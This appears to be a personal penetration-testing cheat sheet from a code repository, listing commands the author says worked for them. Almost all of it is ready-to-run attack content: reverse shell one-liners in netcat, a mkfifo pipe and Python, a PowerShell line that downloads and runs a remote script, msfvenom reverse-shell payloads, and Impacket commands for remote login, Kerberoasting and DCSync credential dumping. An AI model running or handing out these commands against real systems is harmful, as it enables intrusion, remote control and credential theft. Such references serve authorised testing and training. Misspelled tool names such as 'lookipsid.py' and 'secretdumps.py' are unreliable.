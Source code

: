 # Pen-Test Cheat Sheet
This repository contains this markdown file which includes common commands and tools used in a penetration test  
This will be a list of commands that has personally worked for me so I do not have to go back and find what and what doesn't work  
Commands will be seperated into categories  

## Reverse Shells

### Netcat Traditional
```
nc -e /bin/sh 10.10.10.10 4444
nc -e /bin/bash 10.10.10.10 4444
nc -c bash 10.10.10.10 4444
```
### Netcat OpenBSD
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```
### Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
### Windows
```
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```
Use this command in conjunction with nishang shell
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

### PHP Upload
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

### msfvenom commands

#### Windows
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > reverse.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe
```
#### Linux
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf
```
## Spawn TTY Shell
`rlwrap` enhances the shell, allowing you to clear the screen with `CTRL + L`
```
rlwrap nc 10.10.10.10 4444
```
## nmap
```
nmap -sC -sV -oA nmap/name_of_file 10.10.10.10
```
## Gobuster
```
gobuster dir -u http://10.10.10.10 -w /usr/share/wordlists/dirbuster/directory-list.2.3-medium.txt -t 50
```
## Impacket

https://github.com/SecureAuthCorp/impacket

### psexec
Used to remotely login to victim's computer
```
psexec.py domain/user:password@10.10.10.10
```
### GetUserSPNs
Script to find and fetch Service Principle Names assosicated with normal user accounts  
Hash retrieved can be cracked using John or Hashcat
```
GetUserSPNs.py domain/user:password -dc-ip 10.10.10.10 -request
```
### secretdumps

Performs a DCSync Attack
DCSync Attacks pretends to be a domain controller  
Targetted account must have DCSync Privileges which can be obtain if user has Exchange Windows Permission

```
secretdumps.py domain/user:password@10.10.10.10
```

### smbclient

A generic SMB client
```
smbclient.py domain/user:password@10.10.10.10
```

### lookupsid

Tool to bruteforce Windows SIDs which will attempt to identify remote users and groups 

```
lookipsid.py domain/user:password@10.10.10.10
```
